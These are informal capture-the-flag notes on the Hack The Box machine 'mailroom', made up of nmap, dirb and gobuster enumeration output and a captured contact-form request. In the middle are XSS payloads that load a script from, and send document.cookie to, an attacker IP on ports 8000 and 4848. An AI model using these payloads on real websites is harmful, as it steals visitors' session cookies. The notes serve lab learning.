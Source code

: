 └─$ nmap 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 22:00 EDT
Nmap scan report for 10.10.11.219
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.85 se

mailroom.htb

we will add that to /etc/hosts

dirb mailroom.htb

gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

there is a contact.php tho

![](20230701233408.png)

has an xss!

has two xsss

its a manual review so lets see if the xss can connect back 

dirb result

```
----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mailroom.htb/ ----
==> DIRECTORY: http://mailroom.htb/assets/                                                                         
==> DIRECTORY: http://mailroom.htb/css/                                                                            
==> DIRECTORY: http://mailroom.htb/font/                                                                           
+ http://mailroom.htb/index.php (CODE:200|SIZE:7748)                                                               
==> DIRECTORY: http://mailroom.htb/inquiries/                                                                      
==> DIRECTORY: http://mailroom.htb/javascript/                                                                     
==> DIRECTORY: http://mailroom.htb/js/                                                                             
+ http://mailroom.htb/server-status (CODE:403|SIZE:277)                                                            
+ http://mailroom.htb/template (CODE:403|SIZE:277)                                                                 
                                                                                                                   
---- Entering directory: http://mailroom.htb/assets/ ----
+ http://mailroom.htb/assets/favicon.ico (CODE:200|SIZE:134582)                                                    
                                                                                                                   
---- Entering directory: http://mailroom.htb/css/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/font/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/inquiries/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/ ----
==> DIRECTORY: http://mailroom.htb/javascript/jquery/                                                              
                                                                                                                   
---- Entering directory: http://mailroom.htb/js/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/jquery/ ----
+ http://mailroom.htb/javascript/jquery/jquery (CODE:200|SIZE:287600)                                              
                                                                        
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailroom.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 22:29:02 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://mailroom.htb/assets/]
/css                  (Status: 301) [Size: 310] [--> http://mailroom.htb/css/]
/template             (Status: 403) [Size: 277]
/js                   (Status: 301) [Size: 309] [--> http://mailroom.htb/js/]
/javascript           (Status: 301) [Size: 317] [--> http://mailroom.htb/javascript/]
/font                 (Status: 301) [Size: 311] [--> http://mailroom.htb/font/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/07/02 01:49:02 Finished
===============================================================

```


```
POST /contact.php HTTP/1.1
Host: mailroom.htb
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mailroom.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mailroom.htb/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ashwin%40instagram.com&title=ashwin&message=ashwin
```

<img src="10.10.16.24:8000/test.jpg" /> <script src="http://10.10.16.24:8000/cookie.js"></script>

![](20230702070727.png)

getting this

no cookie

so maybe we can try

https://github.com/shelld3v/JSshell

jsh.py -g

<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.16.24:4848/?".concat(document.cookie)},1010)</script>

it does give us a shell but for what?

![](20230702101704.png)

need to look for alternatives.

so obviously this is different from pilgrimae as we know it

this is mailroom htb.
and there is already a machine called mailroom so! maybe they goofed up the machines?

yes they did

![](20230702102326.png)

hahaha. anywhoo.

dirsearch -u http://mailroom.htb -t 200

```
 gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u mailroom.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://mailroom.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/02 20:23:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.mailroom.htb Status: 200 [Size: 13201]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/02 20:23:57 Finished

```

lets add to /etc/hosts 

![](20230702202632.png)

got a gittea directory.

lets do adirectory enumeration on subdomain

we will get to know th eusers of gitea

in the repo htereis a metnion of another subdomain

staff-review-panel.mailroom.htb

https://hyperbeast-es.translate.goog/mailroom-htb/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp



